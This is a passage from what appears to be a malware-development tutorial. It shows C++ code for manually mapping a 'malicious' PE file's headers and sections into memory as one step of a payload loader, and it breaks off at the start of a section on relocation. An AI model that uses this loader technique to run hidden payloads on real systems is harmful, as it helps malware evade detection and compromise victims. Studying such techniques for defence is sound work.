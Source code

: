 
#### Write PE into local memory
Next, we create a helper function to write our malicious file into this buffer called *mapPEVirtualLocal*.

``` cpp 
BOOL mapPEVirtualLocal(PVOID fileBuffer, SIZE_T bufferSize, LPVOID baseAddress) {
	if (!fileBuffer) {
		printf("File buffer is null\n");
		return FALSE;
	}

	PIMAGE_NT_HEADERS32 pNtHeaders32 = getNTHeaders32(fileBuffer);
	if (!pNtHeaders32) {
		printf("Not valid PE file\n");
		return FALSE;
	}

	// Copy all the headers into baseAddress
	memcpy(baseAddress, fileBuffer, (size_t)pNtHeaders32->OptionalHeader.SizeOfHeaders);

	PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((DWORDLONG)(&pNtHeaders32->OptionalHeader) + pNtHeaders32->FileHeader.SizeOfOptionalHeader);
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)fileBuffer;
	// iterate through all the sections and copy them
	DWORD dwNumSections = pNtHeaders32->FileHeader.NumberOfSections;

	for (DWORD i = 0; i < dwNumSections; i++) {
		LPVOID sectionBaseAddress = (BYTE*)baseAddress + pSectionHeader->VirtualAddress;
		memcpy(
			sectionBaseAddress,
			(BYTE*)fileBuffer + pSectionHeader->PointerToRawData,
			pSectionHeader->SizeOfRawData
		);
		printf("[*] Copying section %s to %p\n", pSectionHeader->Name, sectionBaseAddress);
		pSectionHeader++;
	}
	return TRUE;
}
```

First, we get the NT header of the file in order to extract the *SizeOfHeaders* field.


Then, we copy *SizeOfHeaders* bytes into the base address.

After that, we must iterate through all the section and copy every section using their *PointerToRawData* and *SizeOfRawData* field.


#### Applying Relocation


If the base address of the payload changes during our execution, we must apply relocation.


